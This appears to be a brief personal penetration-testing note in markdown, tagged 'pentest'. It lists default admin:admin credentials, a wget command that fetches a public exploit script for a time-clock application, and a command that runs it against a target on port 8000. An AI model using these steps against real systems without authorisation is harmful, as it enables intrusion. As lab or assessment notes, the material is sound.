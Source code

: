 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Default creds admin:admin

```
wget https://raw.githubusercontent.com/timip/exploit/master/timeclock.py
```

```
python timeclock.py $TARGET 8000
```



